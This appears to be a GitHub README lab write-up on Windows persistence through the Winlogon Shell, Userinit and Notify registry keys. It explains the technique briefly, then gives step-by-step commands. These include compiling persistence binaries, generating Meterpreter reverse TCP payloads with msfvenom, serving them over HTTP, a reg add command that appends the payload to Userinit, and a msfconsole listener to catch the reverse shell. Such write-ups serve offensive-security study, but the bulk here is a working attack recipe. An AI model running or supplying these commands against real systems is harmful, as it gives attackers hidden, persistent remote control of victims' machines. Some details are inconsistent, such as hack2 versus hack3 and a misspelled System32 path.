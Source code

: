 # Leveraging Registry Keys Utilized by the Winlogon Process
The Winlogon process is a crucial component of the Windows operating system, responsible for several key functions including:

Facilitating user logon and logoff operations
Managing system startup and shutdown procedures
Implementing screen locking functionality.

**The most important registry keys** for this techniques are listed as follows:
```powershell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```

### Key Registry Entries for Winlogon
## 1. HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell

- **Purpose:** This key specifies the default shell used by the operating system. By default, it is set to explorer.exe, which is the Windows graphical user interface.
- **Exploitation:** Attackers can modify this entry to point to a malicious executable. This ensures that the malicious program runs instead of or alongside the normal user interface when the user logs in.


## 2. HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit

- **Purpose:** This key specifies the program that initializes the user environment during the logon process. By default, it is set to userinit.exe.
- **Exploitation:** Attackers can append or replace this entry with a path to their malicious executable. This causes the malicious program to run during the user initialization process, ensuring that it executes every time a user logs in.

## Requirements for Successful Exploitation
- **Local Administrator Privileges:** Modifying these critical registry keys requires local administrator privileges. Attackers must elevate their privileges on the compromised system to make these changes.
- **Persistence:** Once the registry keys are modified, the malicious programs will persist through reboots and logons, making it difficult to detect and remove them.

## Summary
By modifying the Winlogon registry keys (Shell and Userinit), attackers can maintain a persistent foothold on a compromised Windows system. This technique ensures that their malicious programs run during system startup or user logon, leveraging the essential functions of the Winlogon process. However, successfully implementing this strategy requires local administrator privileges, highlighting the importance of securing administrative access and monitoring critical registry changes to detect potential malicious activities.

---
# Example #1
- This example is based on Chapter 3 - Malware Persistence Mechanisms in [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- More explanation by cocomelonc (Zhassulan Zhussupov) can be found in his [blog](https://cocomelonc.github.io/).
## Step 1. Compile `hack.c`
```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
## Step 2. Compile `pers.c`
```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Check the registry keys
```powershell
 reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```

---

# Example #2
This example is based on [Persistence – Winlogon Helper DLL](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/) by Penetration Testing Lab.

## Step 1. Generate a malicious payload
```bash	
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f exe > hack3.exe
```
![](./screenshots/06.png)

Open a server for victim's Windows 10 VM to download the malicious payload.
```bash
python -m http.server 8000
```
Make sure you move `hack2.exe` to the folder `C:\Windows\Sytem32`. You can open the `Registry Editor`:
![](./screenshots/14.png)

- Press `WIN + R` and type `regedit`.
![](./screenshots/08.png)
![](./screenshots/09.png)
- Right-click `Start` , then select Run. Type regedit in the Open: box, and then select OK ([How to open Registry Editor in Windows 10](https://support.microsoft.com/en-gb/windows/how-to-open-registry-editor-in-windows-10-deab38e6-91d6-e0aa-4b7c-8878d9e07b11)).

Modify the value in `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit` to includ `hack3.exe`.
![](./screenshots/12.png)
![](./screenshots/13.png)

The malicious payload will be executed during Windows authentication, establishing a connection.

One more thing I can do it to modify `Logon Script`
![](./screenshots/15.png)

## Step 2. Exploit

```bash
sudo msfconsole
```
![](./screenshots/05.png)

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR_IP_ADDR>
set LPORT 4444
exploit
```
![](./screenshots/16.png)

or use the commands
```powershell
reg add “HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon” /v Userinit /t REG_SZ /d “C:\Windows\System32\userinit.exe,C:\Windows\System32\hack2.exe” /f

```

# Step 3. Notify Registry

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f dll > pentestlab.dll
```

(coming soon)

---

# References
- Zhassulan Zhussupov (2024)Chapter 3 - Malware Persistence Mechanisms , [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers). Available from: https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers [Accessed 08 August 2024].
- MITRE ATT&CK (2024) [Boot or Logon Autostart Execution: Winlogon Helper DLL](https://attack.mitre.org/techniques/T1547/004/). Available from: https://attack.mitre.org/techniques/T1547/004/ [Accessed 08 August 2024].
- Red Team Notes (2020) [Windows Logon Helper](https://www.ired.team/offensive-security/persistence/windows-logon-helper) (blog). Available from: https://www.ired.team/offensive-security/persistence/windows-logon-helper [Accessed 08 August 2024].
- Hadess (2023) The Art of Windows Persistence (blog). Available from: https://hadess.io/the-art-of-windows-persistence/ [Accessed 08 August 2024].
-Penetration Testing Lab (2020) Persistence – Winlogon Helper DLL (blog). Available from: https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/ [Accessed 08 August 2024].